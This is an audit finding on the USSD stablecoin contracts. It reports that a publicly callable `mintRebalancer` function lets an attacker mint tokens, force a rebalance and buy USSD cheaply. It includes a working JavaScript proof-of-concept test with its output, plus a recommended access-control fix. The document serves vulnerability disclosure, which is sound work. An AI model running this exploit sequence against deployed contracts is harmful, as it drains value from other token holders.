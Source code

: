 kie

high

# Public `mintRebalancer` function can be exploited to delute USSD value

## Summary
The `mintRebalancer` function's public accessibility in the USSD contract poses a risk, as it can be exploited by malicious actors to dilute the value of USSD tokens. This can be achieved by manipulating the rebalancing mechanism to increase the USSD price, mint additional tokens, and subsequently lower the USSD price again.

## Vulnerability Detail
The `mintRebalancer` function in the USSD contract is public and can be invoked by anyone. As a result, a malicious actor can exploit this function to arbitrarily mint USSD tokens. 

By artificially inflating the USSD price through swapping DAI for USSD in the UniswapV3Pool, which facilitates rebalancing, the attacker can call `mintRebalancer` to mint additional USSD tokens. Subsequently, the attacker can invoke the `rebalance` function, triggering the `SellUSSDBuyCollateral` function.

In `SellUSSDBuyCollateral`, the rebalancer sells all the USSD tokens stored in the contract for DAI, effectively diluting the value of USSD tokens. The attacker can then swap DAI for USSD in the UniswapV3Pool again, acquiring a substantial number of USSD tokens for a small amount of DAI. 

## Impact
This vulnerability can be exploited to artificially manipulate the price of USSD tokens, potentially leading to significant dilution of USSD token value. In the worst-case scenario, the attacker could amass a substantial number of USSD tokens at the expense of other token holders. This undermines the stability and reliability of the contract and could erode trust in the system.

Here is a POC to illustrate the issue:

```js
describe('POC 1', function () {
    it('Public `mintRebalancer` function can be exploited to dilute USSD value', async function () {
        await uniswapExactWethForDai(this, web3.utils.toWei('1', 'ether'), attacker);

        web3.utils.toBN(await this.DAI.methods.balanceOf(attacker).call((_, result) => {
            console.log('attacker DAI balance before', result.toString());
        }));

        let ussdValuationBefore = web3.utils.toBN(await this.rebalancer.getOwnValuation());
        console.log('USSD valuation before', ussdValuationBefore.toString());
        expect(ussdValuationBefore.gt(web3.utils.toBN('990000'))).to.be.true;

        console.log('Attacker swaps 50 DAI for USSD to enable rebalancing')
        await uniswapExactDaiForUssd(this, web3.utils.toWei('50', 'ether'), attacker);

        console.log('Attacker mints 5000 USSD in the contract through public mintRebalancer')
       

        await this.USSD.mintRebalancer(web3.utils.toBN('5000000000000'), { from: attacker });

        console.log('Attacker triggers rebalancing')
        await this.rebalancer.rebalance({ from: attacker });

        let ussdValuationAfter = web3.utils.toBN(await this.rebalancer.getOwnValuation());
        console.log('USSD valuation after', ussdValuationAfter.toString());
        expect(ussdValuationAfter.lt(web3.utils.toBN('5'))).to.be.true;

        console.log('Attacker swaps remaining DAI for USSD')
        let attackerDaibalance = web3.utils.toBN(await this.DAI.methods.balanceOf(attacker).call({ from: attacker }));
        await uniswapExactDaiForUssd(this, attackerDaibalance.toString(), attacker);

        let attackerUssdBalance = web3.utils.toBN(await this.USSD.balanceOf(attacker));
        console.log('Attacker USSD Balance', attackerUssdBalance.toString());
    });
});
```

This is the ouput:
```text
attacker DAI balance before 1809320665289667876200
USSD valuation before 1000001
Attacker swaps 50 DAI for USSD enable rebalancing
Attacker mints 5000 USSD in the contract through public mintRebalancer
Attacker triggers rebalancing
USSD valuation after 3
Attacker swaps remaining DAI for USSD
Attacker USSD Balance 4951319369907
```

The attacker turned  1809 USD in DAI into 4,951,319 USD in USSD.

The full runnable POC is found here: https://gist.github.com/thekie/59fb7f28d56ebae7b3fb62a27e163c33

## Code Snippet
The `mintRebalancer` is publicly accessible:
https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSD.sol#L204-L206

The `SellUSSDBuyCollateral` function simply sells off all stored USSD tokens:
https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L164

## Tool used
Manual Review

## Recommendation
Restrict access to the `mintRebalancer` function. It should only be callable by the rebalancer, which could be achieved with the `onlyRebalancer` modifier. Additionally, `SellUSSDBuyCollateral` should not simply sell off all stored USSD tokens; instead, the amount that needs to be sold should be provided as input to `SellUSSDBuyCollateral`.
